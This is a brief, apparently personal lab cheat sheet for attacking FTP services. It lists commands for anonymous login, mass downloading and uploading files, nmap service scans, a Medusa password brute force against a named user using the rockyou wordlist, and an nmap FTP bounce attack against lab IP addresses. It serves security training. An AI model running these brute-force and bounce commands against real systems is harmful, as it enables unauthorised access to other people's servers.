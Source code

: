 1. Anonymous Login: `ftp 10.129.14.136` 
2. Download file: `get filename`
3. Download All Available Files: `wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136`
4. Upload a File: `put testupload.txt`
5. Nmap:
    1. `find / -type f -name ftp* 2>/dev/null | grep scripts`
    2. `sudo nmap -sV -p21 -sC -A 10.129.14.136` `—scripts —script-trace`
6. Brute Forcing with Medusa: `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp `
7. The Nmap -b flag can be used to perform an [FTP Bounce Attack](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/): `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`